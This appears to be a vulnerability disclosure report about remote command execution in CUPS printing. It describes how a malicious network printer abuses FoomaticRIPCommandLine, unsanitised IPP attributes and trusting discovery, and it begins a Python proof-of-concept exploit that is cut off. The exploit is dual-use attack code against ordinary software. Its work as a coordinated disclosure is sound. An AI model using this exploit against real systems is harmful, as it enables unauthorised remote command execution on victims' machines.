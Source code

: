 ````

## Is there evidence that this vulnerability is being actively exploited?

Not to the best of my knowledge.

## Do you plan to publicly disclose this vulnerability yourself?

Yes, I already agreed on a 30 days disclosure embargo with the vendor, which will end on October 6. I'm open to extending it if anyone needs more time.

* https://dilfridge.blogspot.com/2013/12/foomatic-is-moving-into-cups-filters.html
* https://unix.stackexchange.com/questions/378557/what-is-the-difference-between-cups-filters-and-foomatic-filters

> Some time ago the cups-filters maintainers took over maintainership of the foomatic-filters part for CUPS as well, and integrated it cleanly into cups- filters. That's the reason for the blocker; recent cups-filters contain the newest foomatic code available. The former separate foomatic-filters package is now unmaintained.

In short, by relying on the fact that FoomaticRIPCommandLine can be used to execute ANY command, that IPP attributes are never sanitized and that the discovery mechanism trusts blindly anything coming from *:631 or mDNS, we achieve remote command execution on the system when a print job is triggered.

I'm attaching the exploit code, it uses the ippserver package ( [https://github.com/h2g2bob/ipp-server] ), run as `exploit.py ATTACKER_EXTERNAL_IP TARGET_IP`, will create the `/tmp/I_AM_VULNERABLE` file on the target machine when a print job is started:

```python
#!/usr/bin/env python3
import socket
import threading
import time
import sys


from ippserver.server import IPPServer
import ippserver.behaviour as behaviour
from ippserver.server import IPPRequestHandler
from ippserver.constants import (
	OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest


class MaliciousPrinter(behaviour.StatelessPrinter):
	def __init__(self, command):
		self.command = command
		super(MaliciousPrinter, self).__init__()

def minimal_attributes(self):
	return {
		# This list comes from
		# [https://tools.ietf.org/html/rfc2911]
		# Section 3.1.4.2 Response Operation Attributes
		(
			SectionEnum.operation,
			b'attributes-charset',
			TagEnum.charset
		): [b'utf-8'],
		(
			SectionEnum.operation,
````